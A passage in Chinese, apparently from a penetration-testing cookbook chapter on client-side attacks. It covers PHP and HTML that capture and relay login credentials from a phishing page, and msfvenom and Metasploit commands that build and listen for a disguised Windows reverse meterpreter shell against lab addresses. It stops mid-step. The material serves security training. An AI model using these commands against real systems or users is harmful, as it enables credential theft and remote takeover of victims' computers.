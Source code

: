 之后我们将每个参数储存到变量中：

```php
$username=$_POST["username"];  
$password=$_POST["password"];  
$submit="Login";
```

因为我们的登录不打算依赖于用户发送的正确值，我们设置`$submit="Login"`。下面，我们创建了 HTML 主题，它包含一个表单，在页面加载完毕后会自动发送`username`，`password`和`submit`值到原始站点。

```php
<body onload="frm1.submit.click()"> 
<form name="frm1" id="frm1" method="POST" 
action="http://192.168.56.102/bodgeit/login.jsp"> 
<input type="hidden" value="<?php echo $username;?>" name ="username"> 
<input type="hidden" value="<?php echo $password;?>" name ="password"> 
<input type="submit" value="<?php echo $submit;?>" name ="submit"> 
</form> 
</body>
```

要注意，`body `中的`onload`事件并不调用`frm1.submit() `而是` frm1.submit. click()`。这是因为当我们使用`submit`作为表单元素的名称时，表单中的`submit()`函数会被这个元素覆盖掉（这里是提交按钮）。我们并不打算修改按钮名称，因为它是原始站点需要的名称。所以我们使`submit`变成一个按钮，而不是隐藏字段，并使用它的`click`函数将值提交到原始站点。我们同时将表单中的字段值设置为我们之前用于储存用户数据的变量值。

## 9.3 使用 Metasploit 创建反向 shell 并捕获连接

当我们执行客户端攻击的时候，我们能够欺骗用户来执行程序，并使这些程序连接回控制端。

这个秘籍中，我们会了解如何使用 Metasploit 的 msfvenom 来创建可执行程序（反向 meterpreter shell），它会在执行时连接我们的 Kali 主机，并向我们提供用户计算机的控制。

### 操作步骤

1.  首先，我们要创建我们的 shell。在 Kali 中打开终端并执行下列命令：

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > cute_dolphin.exe
    ```
    
    这会创建名为`cute_dolphin.exe`的文件，这是反向 meterpreter shell，反向意味着它会连接回我们，而不是监听我们的连接。
    
2.  下面，我们需要为我们“可爱的海豚”将要创建的连接建立监听器。在 MSFconsole 的终端中：

    ```
    use exploit/multi/handler 
    set payload windows/meterpreter/reverse_tcp 
    set lhost 192.168.56.1 set lport 4443 
    set ExitOnSession false 
    set AutorunScript post/windows/manage/smart_migrate 
    exploit -j -z 
    ```
    
    就像你看到的那样，LHOST 和 RPORT 是我们用于创建`exe`文件的东西。这是程序将要连接的 IP 地址和 TCP 端口。所以我们需要在这个 Kali 的网络接口和端口上监听。
    
3.  我们的 Kali 已准备就绪，现在是准备攻击用户的时候了，我们以 root 启动 Apache 服务并运行下列代码：
